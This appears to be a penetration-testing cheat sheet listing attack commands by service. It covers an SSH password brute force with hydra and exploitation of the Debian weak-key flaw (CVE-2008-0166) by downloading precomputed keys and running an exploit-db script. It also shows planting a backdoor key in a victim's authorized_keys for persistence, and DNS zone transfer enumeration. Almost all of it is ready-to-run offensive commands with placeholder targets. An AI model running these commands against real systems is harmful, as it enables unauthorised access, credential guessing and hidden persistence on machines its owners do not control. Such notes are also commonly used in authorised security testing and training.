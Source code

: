 
## SSH - 22

### Brute force

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

### SSH backdoor - post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

---

## DNS - 53

### Zone transfert

```
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```
